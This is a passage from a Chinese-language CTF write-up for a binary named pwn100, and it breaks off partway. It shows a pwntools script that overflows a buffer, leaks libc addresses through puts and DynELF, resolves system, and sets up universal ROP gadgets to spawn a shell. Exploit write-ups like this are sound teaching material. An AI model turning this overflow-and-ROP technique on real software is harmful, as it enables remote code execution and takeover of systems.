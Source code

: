 ```python
    system_addr = d.lookup('system','libc')
    log.info("system_addr = %#x",system_addr)
```

得到system函数之后就可以接着构造ROP链来拿到shell了。因为read函数(读取"/bin/sh")需要三个参数，但是找不到`pop rdx;ret`类似的指令给rdx赋值，所以这里需要利用万能的gadgets来获取"/bin/sh"和调用system函数。
完整脚本如下：

```python
    from pwn import *

    p = process('./pwn100')
    elf = ELF('./pwn100')

    puts_plt = elf.symbols['puts']
    log.info("puts_plt = %#x",puts_plt)
    read_plt = elf.got['read']
    log.info("read_plt = %#x",read_plt)

    def leak(addr):
        count = 0
        up = ''
        data = ''
        payload = 'A'*72 + p64(pop_rdi) + p64(addr) + p64(puts_plt) + p64(main)
        payload = payload.ljust(200,'\x00')
        p.send(payload)

        p.recvuntil("bye~\n")
        while True:
            c = p.recv(numb=1,timeout=0.1)
            count += 1
            if up == '\n' and c == '':
                data = data[:-1]
                data += "\x00"
                break
            else:
                data += c
                up = c
        data = data[:4]
        log.info("%#x => %s" % (addr, (data or '').encode('hex')))
        return data

    start = 0x00400550
    main = 0x04006B8
    pop_rdi = 0x0400763
    # pop rdi;ret
    bss_addr = 0x0601060

    d = DynELF(leak,main,elf=ELF('./pwn100'))

    system_addr = d.lookup('system','libc')
    log.info("system_addr = %#x",system_addr)

    gadget1 = 0x0040075b
    # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    gadget2 = 0x0400740
    # mov     rdx, r13
    # mov     rsi, r14
    # mov     edi, r15d
    # call    qword ptr [r12+rbx*8]
    # add     rbx, 1
    # cmp     rbx, rbp

    payload1 = 'B'*72
```